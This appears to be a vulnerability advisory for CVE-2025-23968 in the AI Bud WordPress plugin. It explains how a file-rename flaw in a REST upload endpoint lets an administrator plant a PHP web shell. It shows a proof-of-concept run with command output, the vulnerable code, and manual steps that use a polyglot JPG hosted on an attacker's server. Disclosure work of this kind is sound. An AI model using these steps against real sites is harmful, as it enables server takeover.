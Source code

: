 +++
title = 'AI Bud – AI Content Generator, AI Chatbot, ChatGPT, Gemini, GPT-4o'
date = 2025-07-03T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "AI Bud"]
+++
### CVE-2025-23968

The [AI Bud](https://wordpress.org/plugins/aibuddy-openai-chatgpt/) plugin exposes a REST API endpoint `/wp-json/ai-buddy/v1/wp/attachments` that allows uploading files to the WordPress media library. The endpoint’s file logic contains file renaming functionality that triggers after file type validation, and allows the attacker to rename the uploaded file to any extension (including.php) allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

A POC [cve-2025-23968.py](https://github.com/d0n601/CVE-2025-23968/blob/master/cve-2025-23968.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```
python cve-2025-23968.py https://lab 1 .hacker admin PASSWORD
Logging into: https://lab 1 .hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Executing test command: ip addr

<pre> 1 : lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00 : 00 : 00 : 00 : 00 : 00 brd 00 : 00 : 00 : 00 : 00 : 00
    inet 127. 0. 0. 1 / 8 scope host lo
        valid_lft forever preferred_lft forever
    inet 6 :: 1 / 128 scope host
        valid_lft forever preferred_lft forever
2 : eth 0 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 5 b: 34 : 2 f brd ff:ff:ff:ff:ff:ff
altname enp 0 s 3
    inet 10. 0. 2. 15 / 24 metric 100 brd 10. 0. 2. 255 scope global dynamic eth 0
        valid_lft 75700 sec preferred_lft 75700 sec
    inet 6 fd 17 : 625 c:f 037 : 2 :a 00 : 27 ff:fe 5 b: 342 f/ 64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86174 sec preferred_lft 14174 sec
    inet 6 fe 80 ::a 00 : 27 ff:fe 5 b: 342 f/ 64 scope link
        valid_lft forever preferred_lft forever
3 : eth 1 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 39 :ea:eb brd ff:ff:ff:ff:ff:ff
altname enp 0 s 8
    inet 192. 168. 56. 56 / 24 brd 192. 168. 56. 255 scope global eth 1
        valid_lft forever preferred_lft forever
    inet 6 fe 80 ::a 00 : 27 ff:fe 39 :eaeb/ 64 scope link
        valid_lft forever preferred_lft forever
4 : docker 0 : <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02 : 42 : 6 f: 4 c: 3 e:ed brd ff:ff:ff:ff:ff:ff
    inet 172. 17. 0. 1 / 16 brd 172. 17. 255. 255 scope global docker 0
        valid_lft forever preferred_lft forever
</pre>
```

## Details

The plugin registers its REST API routs in `/wp-content/plugins/aibuddy-openai-chatgpt/src/Rest.php`

Lines 250-284 register the REST route for the `/wp/attachments` endpoint. The callback function is defined as `create_attachment`:

```php
register_rest_route(
    $namespace,
    '/wp/attachments',
    array(
        'methods' => 'POST',
        'permission_callback' => array( AuthGate::class, 'authorized'
    ),
        'callback' => array( $this, 'create_attachment' ),
    'args' => array(
    'title' => array(
    'required' => true,
    'type' => 'string',
    ),
    'caption' => array(
    'required' => true,
    'type' => 'string',
    ),
    'alt' => array(
    'required' => true,
    'type' => 'string',
    ),
    'description' => array(
    'required' => true,
    'type' => 'string',
    ),
    'url' => array(
    'required' => true,
    'type' => 'string',
    ),
    'filename' => array(
    'required' => false,
    'type' => 'string',
    ),
),
```


The `create_attachment` function is defined on Line 709, and the renaming logic starts at Line 744. As seen in the snippet below, if the `$filename` parameter is specified it can be used to rename an existing attachment (unsanitized):

```php
// strip possible path from filename
$filename = basename( sanitize_text_field( $request->get_param( 'filename'
) ) );
if (! empty( $filename ) ) {
    $file = get_attached_file( $attachment_id, true );
    $dir = dirname( $file );
    $new_file = $dir. '/'. $filename;
    if ( file_exists( $new_file ) ) {
        $new_file = $dir. '/'. uniqid(). '-'. $filename;
    }
    $this->move_file( $file, $new_file );
    update_attached_file( $attachment_id, $new_file );
}
```
## Manual Reproduction

The .php Renaming Attack

1. Attacker prepares a file calledshell.jpgwith the following qualities (see example).
    1. File containsmagic bitsfor jpg `FF D8 FF E0`.
    2. File has `.jpg` extension.
    3. File contains php code for a web shell.
2. The attacker hostsshell.jpgon a server they control (like Github).
3. The attacker sends a POST request to `/wp-json/ai-buddy/v1/wp/attachments` with:
    1.url: the URL toshell.jpg
    2.filename:shell.php
4. The attacker accesses `/wp-content/uploads/YEAR/MONTH/shell.php` and executes arbitrary
    PHP code.


